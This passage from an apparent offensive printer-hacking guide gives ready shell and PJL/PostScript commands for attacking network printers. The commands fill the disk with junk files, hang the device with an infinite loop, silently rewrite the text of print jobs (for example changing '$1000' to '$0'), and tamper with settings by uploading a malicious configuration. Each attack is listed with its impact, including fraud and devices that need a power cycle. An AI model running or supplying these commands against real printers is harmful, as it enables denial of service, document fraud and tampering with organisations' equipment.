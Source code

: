 **Disk Space Exhaustion:**
```bash
# Fill disk with large files
while [ $(df | grep "0:" | awk '{print $4}') -gt 1024 ]; do
    > upload large.dat /tmp/junk_$RANDOM.dat
done
```

**Impact**: Printer unusable, requires restart

---

### Attack 3.4: Infinite Loop

**Objective**: Hang printer with infinite loop

```bash
# PJL infinite loop (if supported)
> execute @PJL ENTER LANGUAGE=POSTSCRIPT
> execute { } loop
```

**Impact**: Printer hangs, requires power cycle

---

## 📝 Data Manipulation

### Attack 4.1: Print Job Replacement

**Objective**: Replace print job content

```bash
# Enable replacement
> replace "Confidential" "Public"
> replace "$1000" "$0"

# All subsequent jobs modified
```

**Impact**: Data integrity compromise, fraud

---

### Attack 4.2: Configuration Tampering

**Objective**: Modify printer settings

```bash
# Change default settings
> set COPIES=100
> set DUPLEX=OFF
> set RESOLUTION=300
> set TIMEOUT=1

# Upload malicious config
> upload malicious_config.xml /etc/config.xml

# Restart to apply
> restart
```
